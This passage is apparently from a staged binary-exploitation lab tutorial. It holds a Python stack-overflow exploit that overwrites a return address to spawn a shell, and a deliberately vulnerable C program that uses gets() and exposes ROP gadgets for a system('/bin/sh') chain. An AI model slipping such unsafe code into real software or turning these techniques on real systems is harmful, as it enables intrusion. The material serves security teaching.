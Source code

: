 ### Exploit (stage 0)

```python
# exploit_stage0.py
import struct, sys
OFFSET = 72  # adjust if needed after checking in gdb
WIN = 0x4011a6  # replace with your nm result
payload = b"A"*OFFSET + struct.pack('<Q', WIN)
sys.stdout.buffer.write(payload)
```

Run:

```bash
python3 exploit_stage0.py | ./stage0
```

You should drop into a shell. Exit with `exit`.

---

## Stage 1 – `stage1_rop_sys.c` (ROP to system("/bin/sh"))

* Goal: Use **gadgets** inside the binary to call `system("/bin/sh")`.
* Teaches: building a minimal chain `pop rdi; ret` → `system`.

```c
#include "common.h"

extern void gadget_pop_rdi_ret(void);
extern void gadget_ret(void);

__attribute__((noinline)) void safe(){ puts("(safe)\n"); }

__attribute__((noinline)) int call_system(const char* s){ return system(s); }

static const char BINSH[] = "/bin/sh"; // lives in .rodata with stable address

__attribute__((noinline)) void vuln(){
  char buf[64];
  PROMPT("stage1> input: ");
  gets(buf); // vulnerable by design
}

int main(){
  banner("Stage 1 — ROP to system('/bin/sh')");
  vuln();
  puts("done\n");
  return 0;
}
```

### Build & inspect

